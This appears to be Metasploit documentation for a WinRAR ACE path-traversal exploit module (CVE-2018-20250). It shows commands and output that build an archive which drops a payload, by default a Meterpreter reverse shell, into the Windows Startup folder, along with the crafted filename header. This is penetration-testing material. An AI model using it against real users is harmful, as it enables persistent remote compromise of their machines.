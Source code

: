 ## Introduction

**From the CVE-2018-20250 NVD Page**:
In WinRAR versions prior to and including 5.61, there is a path traversal vulnerability when crafting the filename field of the ACE format (in UNACEV2.dll). When the filename field is manipulated with specific patterns, the destination (extraction) folder is ignored, thus treating the filename as an absolute path.

This module will attempt to extract a payload to the startup folder of the current user. It is limited such that we can only go back one folder. Therefore, for this exploit to work properly, the user must extract the supplied RAR file from one folder within the user profile folder (e.g. Desktop or Downloads).

## Vulnerable Applications

- RARLAB WinRAR <= 5.61

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/winrar_ace`
3. Do: `set FILENAME [FILENAME]`. Name is `msf.ace` by default.
4. Optional: Do: `set CUSTFILE [CUSTFILE]` to use a custom payload.
5. Optional: Do: `set PAYLOAD [PAYLOAD]`. `windows/meterpreter/reverse_tcp` by default. Skip if using a custom payload.
6. Configure your payload if using a Metasploit-provided payload. Skip if using a custom payload.
7. Do: `exploit`
8. **Verify** that a file is created (by default in `~/.msf4/local/`) and that it passes `**acefile.py**`'s checks

## Options

**FILENAME**
Filename to output. Default is `msf.ace`

**CUSTFILE**
Optional. Custom payload to use. Can be anything. Just be aware that some files are not *meant* to be executed in case you're wondering why the shellz ain't poppin'.

## Example

### Test with autogenerated payload, default options
```
msf5 exploit(windows/fileformat/winrar_ace) > set VERBOSE true
VERBOSE => true
msf5 exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.79.1
LHOST => 172.16.79.1
msf5 exploit(windows/fileformat/winrar_ace) > exploit

[*] ACE header CRC16: 0x286b
[*] Filename: YqJotG.exe
[*] Payload CRC32: 0x890ed96f
[*] File header CRC16: 0x55e7
[+] msf.ace stored at /home/msfdev2/.msf4/local/msf.ace
msf5 exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/msf.ace -v
warning: acebitstream c extension unavailable, using pure-python bit stream
processing archive .msf4/local/msf.ace
loaded 1 volume(s) starting at volume 0
archive is not locked, not multi-volume, solid
last modified 2019-02-22 03:00:32
created on Win32 with ACE 2.0 for extraction with 2.0+
advert [*UNREGISTERED VERSION*]
volume
    filename    .msf4/local/msf.ace
    filesize    73972
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x55e7
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x20000000  536870912
    crc32       0x890ed96f
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\YqJotG.exe'
    comment     b''
    ntsecurity  b''
    reserved2   b''
msfdev2@automata:~$ 
```
### Test using a custom payload and saving to a different filename
```
msf5 exploit(windows/fileformat/winrar_ace) > set VERBOSE true
VERBOSE => true
msf5 exploit(windows/fileformat/winrar_ace) > set CUSTFILE /home/msfdev2/asdfasdf.txt
CUSTFILE => /home/msfdev2/asdfasdf.txt
msf5 exploit(windows/fileformat/winrar_ace) > set FILENAME custom.ace
FILENAME => custom.ace
msf5 exploit(windows/fileformat/winrar_ace) > exploit

[*] ACE header CRC16: 0x286b
[*] Using a custom payload: /home/msfdev2/asdfasdf.txt
[*] Filename: asdfasdf.txt
[*] Payload CRC32: 0x90117b38
[*] File header CRC16: 0x2cdd
[+] custom.ace stored at /home/msfdev2/.msf4/local/custom.ace
msf5 exploit(windows/fileformat/winrar_ace) > 
```

Payload is named `asdfasdf.txt` and contains `asdfasdf`. Verify checksums using `acefile`:

```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/custom.ace -v
warning: acebitstream c extension unavailable, using pure-python bit stream
processing archive .msf4/local/custom.ace
loaded 1 volume(s) starting at volume 0
archive is not locked, not multi-volume, solid
last modified 2019-02-22 03:00:32
created on Win32 with ACE 2.0 for extraction with 2.0+
advert [*UNREGISTERED VERSION*]
volume
    filename    .msf4/local/custom.ace
    filesize    181
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x2cdd
    hdr_size    115
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    9
    origsize    9
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x20000000  536870912
    crc32       0x90117b38
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\asdfasdf.txt'
    comment     b''
    ntsecurity  b''
    reserved2   b''
msfdev2@automata:~$ 
```